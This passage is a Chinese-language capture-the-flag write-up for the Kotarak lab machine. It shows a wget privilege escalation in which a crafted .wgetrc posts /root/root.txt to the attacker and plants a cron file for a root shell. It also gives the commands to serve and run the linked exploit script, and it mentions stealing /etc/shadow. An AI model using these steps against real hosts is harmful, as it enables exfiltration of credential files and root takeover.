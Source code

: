 .wgetrc提示发送/root/root.txt，于是133就将本机的机密文件发送给了10.0.3.1

#### 利用过程
kali-ip : touch exp.py
touch .wgetrc

.wgetrc文件内容，保存的绝对路径为/root/.wgetrc
```
post_file = /root/root.txt
output_document = /etc/cron.d/wget-root-shell
```
>wgetrc是一个全局初始启动的配置文件
post-file选项使你选择一个具体的文件发送
output_document选项，使下载的文件以你设置的文件名保存

exp.py内容
[https://raw.githubusercontent.com/Teckk2/Teck_k2/master/Kotarak-wget.py](https://raw.githubusercontent.com/Teckk2/Teck_k2/master/Kotarak-wget.py)
将exp修改ftp的ip为kali的，然后上传至10.10.10.55。

kali: 
```
pip2 install pyftpdlib 
python -m pyftpdlib -p 21 -w
以路径/root，kali开启ftp服务器
```
kali上传wget.py到远程主机：
`python -m SimpleHTTPServer 8080`

远程shell :
```
wget http://10.10.14.5:8080/wget.py
authbind python wget.py
```
![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/05-25-07/5.PNG)

稍等两分钟，10.10.10.55的shell就会返回执行结果，成功获得10.10.3.133的/root/root.txt文件。
![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/05-25-07/6.PNG)

如果将.wgetrc文件进行修改，即可获得任意10.10.3.133的文件，包括/etc/shadow。

### 参考资料:
[从ntds-dit提取密码的三种方式](https://www.hackingarticles.in/3-ways-extract-password-hashes-from-ntds-dit/)
